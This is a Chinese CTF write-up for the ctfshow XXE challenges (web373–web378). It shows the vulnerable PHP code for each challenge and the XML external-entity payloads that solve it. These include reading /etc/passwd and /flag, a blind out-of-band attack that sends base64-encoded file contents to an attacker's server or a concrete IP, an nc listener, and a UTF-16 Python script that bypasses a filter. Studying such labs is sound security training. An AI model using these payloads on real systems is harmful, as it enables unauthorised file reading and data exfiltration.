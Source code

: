 @[toc]

## XEE漏洞的原理

[XML外部实体注入](https://xz.aliyun.com/t/6754)

##  ctfshow-xxe

###  web373

代码

```php
<?php
error_reporting(0);
libxml_disable_entity_loader(false);
//file_get_contents("php://input"),我们需要post我们的payload
$xmlfile = file_get_contents('php://input');
if(isset($xmlfile)){
    //DOMDocument,表示整个HTML或XML文档;作为文档树的根。
    $dom = new DOMDocument();
    //loadXML,从一个字符串中，加载一个XML文档
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
    //将XML文档作为一个导入一个XML对象
    $creds = simplexml_import_dom($dom);
    //XML对象指向ctfshow的元素标签
    $ctfshow = $creds->ctfshow;
    echo $ctfshow;
}
highlight_file(__FILE__);    
?>
```

所以我们就直接利用外部实体来构造payload

```XML
<!DOCTYPE root-element [
    <!ELEMENT root-element (#PCDATA)>
    <!ENTITY xee SYSTEM "file:///etc/passwd">
]>
<!--一定要包含ctfshow的元素-->
<root-element>
	<ctfshow>&xee;</ctfshow>
</root-element>
```

###  web374，375，376

其中376好像把xml的头过滤了，但是下面的payload没有用到xml头

代码

```php
<?php
error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
}
highlight_file(__FILE__);  
```

看代码，没有echo了，说明是XXE没有回显了，我们需要使用盲注

payload:

```xml
<?xml version='1.0'?>
<!DOCTYPE root-element [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
<!ENTITY % dtd SYSTEM "http://xxx/evil.xml">//xxx表示自己服务器的ip地址
%dtd;
%send;
]>
<root>123</root>
```

evil.xml,需要与路径匹配

```
<!ENTITY % payload "<!ENTITY &#x25; send  SYSTEM 'http://xxx:9999/%file;'> ">%payload;
//%号要进行实体编码成&#x25
```

我解释一下，传入的xml，ip地址是自己evil.xml放入的文件地址

evil.xml其中的xxx就是自己服务器的IP地址，端口随便（只要开放端口都可以）

然后服务器监听,nc -lvvp 9999

这是服务器监听拿flag，我们还可以使用php文件

payload

```
# pd.dtd
<!ENTITY % all
"<!ENTITY &#x25; send SYSTEM 'http://47.95.235.67/xxe.php?q=%file;'>"
>
%all;<?xml version='1.0'?>
<!DOCTYPE root-element [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
<!ENTITY % dtd SYSTEM "http://xxx/evil.xml">//xxx表示自己服务器的ip地址
%dtd;
%send;
]>
<root>123</root>
```

evil.xml

```
<!ENTITY % payload "<!ENTITY &#x25; send  SYSTEM 'http://xxx:9999/xxe.php?c=%file;'> ">%payload;
//%号要进行实体编码成&#x25
```

xxe.php

```php
# xxe.php
<?php
highlight_file(__FILE__);
$xxe = base64_decode($_GET['c']);
$txt = 'flag.txt';
file_put_contents($txt,$xxe,FILE_APPEND)
?>
```

###  web377

代码

```php
<?php
error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(preg_match('/<\?xml version="1\.0"|http/i', $xmlfile)){
    die('error');
}
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
}
highlight_file(__FILE__);    

```

过滤了xml头和http关键字，xml头无所谓，http，我们可以使用utf-16来

直接使用脚本跑吧

```python
import requests

url = 'http://5d02e5f9-796d-4dc6-8e1e-6dbb51d6c0c0.challenge.ctf.show:8080/'
data = """<!DOCTYPE ANY [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
<!ENTITY % dtd SYSTEM "http://xxx/evil.xml">
%dtd;
%send;
] >"""

requests.post(url ,data=data.encode('utf-16'))
print("OK!")
```

###  web378

这道题，我们看到有回显，而且抓包发现post内容已经有xml的元素

所以，我们直接构造就行了

```
<!DOCTYPE test [
<!ENTITY xxe SYSTEM "file:///flag">
]>
<user><username>&xxe;</username><password>&xxe;</password>
```

